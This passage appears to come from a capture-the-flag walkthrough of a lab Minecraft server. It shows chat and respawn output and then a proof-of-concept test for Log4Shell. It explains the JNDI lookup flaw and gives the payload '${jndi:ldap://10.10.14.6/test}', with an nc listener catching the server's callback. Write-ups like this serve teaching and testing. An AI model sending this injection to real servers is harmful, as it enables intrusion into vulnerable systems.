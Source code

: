 To send a chat, I’ll just send something not starting with `/`, and it displays back:

```

<0xdf> hello! anyone home?

```

Once in a while I can be killed:

```

0xdf was shot by Skeleton
[MCC] You are dead. Type '/respawn' to respawn.
> 

```

`/respawn` and I’m back:

```

[MCC] You have respawned.

```

### Log4Shell POC

#### Vulnerability Background

The issue with Log4Shell is that the Log4J logging module doesn’t handle well the pattern `${[stuff]}`. By putting a JNDI/LDAP url in that pattern, it will cause the logger to fetch data from an arbitrary server and, if that is serialized Java, that leads to execution.

#### Proof of Vulnerability

To test for this, I’ll send listen on TCP port 389 (LDAP default) with `nc` and then enter a payload that will attempt to contact my host on 389:

```

${jndi:ldap://10.10.14.6/test}

```

If there’s a connection to my host, then the server is likely vulnerable to Log4Shell. On sending, I get a connection:

```

oxdf@hacky$ nc -lnvp 389
Listening on 0.0.0.0 389
Connection received on 10.10.11.249 49682
0
 `

```
